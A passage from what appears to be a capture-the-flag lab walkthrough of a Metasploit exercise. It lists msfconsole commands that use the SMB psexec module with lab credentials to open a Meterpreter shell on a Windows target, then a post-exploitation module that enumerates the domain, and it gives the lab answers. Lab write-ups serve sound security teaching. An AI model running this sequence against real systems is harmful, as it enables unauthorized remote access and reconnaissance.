 <br />

As instructed, we can use the ```exploit/windows/smb/psexec``` module from the msfconsole for an initial SMB attack.

```msfconsole```
<br />
```use exploit/windows/smb/psexec```
<br />
```set LHOST LOCAL_IP```
<br />
```set RHOSTS TARGET_IP```
<br />
```set SMBUser ballen```
<br />
```set SMBPass Password1```
<br />
```run```

The shell should now be up and running. To check the system information we simply use the ```sysinfo``` command, also hinted at us on the question.

![image](https://user-images.githubusercontent.com/14150485/170658359-f6584741-597e-40f9-aaf8-057e9984c598.png)

The computer name is ```ACME-TEST```.
```
ACME-TEST
```
<br />

### 5.2: What is the target domain?

To get this information we need to push the current meterpreter shell to the background for a second so we can use the ```post/windows/gather/enum_domain``` module.
```
background
```
Alternatively, we can use:
```
Ctrl + Z
```
Now that the process is running in the background, we may proceed with the ```enum_domain``` module.
```
use post/windows/gather/enum_domain
```
The only setting we need for this one is ```SESSION```, the number of which we can find by using the ```sessions``` command.

![2022-05-27 09_08_50-Kali  Running  - Oracle VM VirtualBox](https://user-images.githubusercontent.com/14150485/170658890-a82b5d01-0b48-4320-9f0a-8ba7183507a3.png)

We set the session and run the exploit.

```set SESSION SESSION_ID```
<br />
```run```

The output shows the domain name.

![image](https://user-images.githubusercontent.com/14150485/170659878-f4ebb96e-1c21-4bb7-8265-6fbd9b5440e6.png)
```
FLASH
```
<br />

```